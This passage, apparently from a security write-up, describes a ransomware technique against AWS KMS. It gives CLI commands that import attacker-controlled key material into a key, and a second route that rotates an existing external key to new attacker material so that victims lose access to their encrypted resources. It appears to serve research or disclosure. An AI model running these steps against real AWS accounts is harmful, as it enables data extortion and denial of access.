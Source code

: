 We'll use `encrypted_key_material.bin` for our import.

**NOTE**: Make sure to keep a copy of this file if you want to eventually restore the AWS resources. This is the only thing that can restore access to resources encrypted under this key material.

Import Key Material. Once the key material is imported, the key is enabled for use. 

```
aws kms import-key-material --key-id <key-id> --encrypted-key-material fileb://encrypted_key_material.bin --import-token fileb://import_token.bin --expiration-model KEY_MATERIAL_DOES_NOT_EXPIRE
```

![image4](/img/kms-ransomware/import-key-material.png){: width="720" .mx-auto .d-block }

Now the resource is fully encrypted, only allowing the attacker to decrypt the potentially sensitive data.

### **Alternative: Leveraging an existing key**

If the attacker doesn't have the `kms:CreateKey` permission, they can rotate existing `EXTERNAL` keys to attacker-controlled material if they have `kms:RotateKeyOnDemand`.

The attacker can import new material into an existing key.

```bash
aws kms import-key-material \
 --key-id <key-id> \
 --import-type NEW_KEY_MATERIAL \
 --encrypted-key-material fileb://encrypted_key_material.bin \
 --import-token fileb://import_token.bin \
 --expiration-model KEY_MATERIAL_DOES_NOT_EXPIRE
```

![image5](/img/kms-ransomware/import-type-new-key-material.png){: width="720" .mx-auto .d-block }

At this point the new material won't be active yet. It will be in the state `PendingRotation`.

![image6](/img/kms-ransomware/pending-rotation.png){: width="720" .mx-auto .d-block }
